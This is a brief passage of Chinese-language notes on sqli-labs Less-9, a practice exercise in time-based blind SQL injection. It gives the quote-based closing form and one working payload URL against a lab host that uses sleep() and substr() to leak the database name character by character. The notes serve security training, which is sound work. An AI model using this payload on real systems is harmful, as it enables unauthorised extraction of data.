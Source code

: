![](file/image_O43cP0y6XH.png)

### Less-9：GET - Blind - Time based. - Single Quotes

**注入类型**

时间盲注

**闭合方式**

id='\$id'

```sql
http://192.168.65.128/sqli-labs/Less-9/?id=1' 
and if(substr(database(),1,1)='s',sleep(5),1) --+
```
